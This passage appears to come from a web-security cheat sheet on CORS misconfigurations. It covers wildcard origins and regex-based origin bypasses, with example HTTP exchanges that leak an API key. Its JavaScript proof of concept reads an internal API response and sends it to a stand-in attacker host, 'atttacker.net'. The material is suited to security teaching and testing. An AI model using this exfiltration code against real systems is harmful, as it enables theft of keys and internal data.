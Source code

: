 If the server responds with a wildcard origin `*`, **the browser does never send
the cookies**. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then 
pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

### Vulnerable Example: Expanding the Origin / Regex Issues
Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.

#### Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of `example.com` will be accepted by the server. 

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```
